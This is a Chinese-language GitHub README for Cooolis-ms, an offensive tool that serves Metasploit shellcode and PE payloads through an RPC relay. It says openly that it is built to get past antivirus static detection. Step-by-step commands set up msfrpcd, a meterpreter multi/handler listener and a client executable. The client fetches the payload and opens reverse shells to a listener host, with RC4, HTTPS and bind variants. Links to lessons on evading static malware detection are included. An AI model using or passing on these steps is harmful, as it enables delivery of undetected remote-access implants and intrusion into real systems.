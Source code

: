 # Cooolis-ms

![README](./Pic/view-1.png)

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。

加载器执行流程：连接Cooolis-Server，Cooolis-Server连接Metasploit RPC服务端，取回Payload然后发送回加载器

核心技术：
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)


## 该项目的优点

- 体积小（>=100KB）
- 支持Metasploit所有Payload
- 参数设置方便
- 单文件
- 架构分离

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)

## 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## 如何使用

假设这是我的VPS： 10.20.56.41

### 第一步 启动Metasploit RPC服务端

**启动Metasploit RPC服务端：**

```
$ msfrpcd -U msf -P msf -u /api/1.0/ -a 127.0.0.1
```

![](img/2020-08-05-11-53-35.png)

### 第二步 启动Cooolis-ms服务端

使得它连接到RPC，并且监听一个端口，用来发送载荷：

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 10.20.56.41
```

![](img/2020-08-05-11-54-24.png)

### 第三步 配置Metasploit监听器


```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST  10.20.56.41
msf5 > set LPORT 8876
msf5 > exploit -j
```

![](img/2020-08-05-11-57-03.png)

### 第四步 启动Cooolis-ms客户端


```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=10.20.56.41,LPORT=8876,Format=dll -H 10.20.56.41 -P 8899
```

![](img/2020-08-05-12-08-07.png)

Q&A : [是否支持RC4加密的Payload?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -s LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -s LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter_reverse_https

```
Cooolis-ms.exe -p windows/meterpreter_reverse_https -s LHOST=10.20.56.41,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/bind_tcp_rc4

```
Cooolis-ms.exe -p windows/meterpreter/bind_tcp_rc4 -s RHOST=10.20.56.11,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* ... 其他自行发挥


**注意：Cooolis-ms.exe的-s参数要与msf的配置对应。**

## 关于其他

如果你觉得这个项目不错，那就给一个Star～


## issue

[我要提交建议或问题](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
